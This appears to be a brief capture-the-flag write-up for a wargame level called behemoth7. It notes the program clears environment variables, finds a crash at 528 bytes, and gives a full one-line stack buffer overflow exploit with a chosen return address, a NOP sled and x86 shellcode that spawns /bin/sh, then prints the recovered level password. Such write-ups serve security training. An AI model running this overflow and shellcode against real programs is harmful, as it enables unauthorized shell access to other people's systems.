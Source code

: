 using ltrace, we see that the code goes through every env variable and sets it to 0,  
then we try the good old buffer overflow  

we see that at 528 bytes it crashes, and after looking into some adresses, we choose 0xffffd840,  
and we pad the shellcode with tons of NOP (0x90) instructions  

./behemoth7 $(python -c "print 'A'*528+'\x40\xd8\xff\xff'+'\x90'*100+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\
								xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
we have shell  
we get:  
pheewij7Ae  
